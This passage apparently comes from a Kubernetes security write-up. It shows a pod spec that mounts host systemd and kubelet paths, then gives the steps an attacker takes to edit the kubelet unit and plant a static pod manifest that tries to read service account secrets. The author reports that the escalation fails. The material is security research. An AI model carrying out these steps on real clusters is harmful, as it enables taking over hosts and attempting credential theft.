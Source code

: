```json
        "hostPath": {
          "path": "/sys/fs/cgroup"
        }
      },
      {
        "name": "systemd-volume",
        "hostPath": {
          "path": "/run/systemd"
        }
      },
      {
        "name": "unit-volume",
        "hostPath": {
          "path": "/etc/systemd/system"
        }
      },
      {
        "name": "kubernetes-volume",
        "hostPath": {
          "path": "/etc/kubernetes"
        }
      }
    ]
  }
}
```

The key setting here is the hostPath volume that mounts `/run/systemd/private`, "_Used internally as communication channel between systemctl (1) and the systemd process_". With this socket mounted and no restriction on which UID we run as, we can control the host's systemd.

  * `systemctl edit --full kubelet`, add `--pod-manifest-path=/etc/kubernetes/manifests` to `ExecStart`
  * Add a static pod manifest:

`/etc/kubernetes/manifests/static.yml`:
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: static
  namespace: kube-system
spec:
  containers:
    - name: static
      image: busybox
      command: ["cat", "/var/run/secrets/kubernetes.io/serviceaccount"]
  serviceAccountName: clusterrole-aggregation-controller
```
  * `systemctl restart kubelet`

Fortunately, the resulting container is _not_ created with a service account token! There wasn't any obvious way to escalate privileges further from here. This protection is achieved by two mechanisms in Kubernetes:
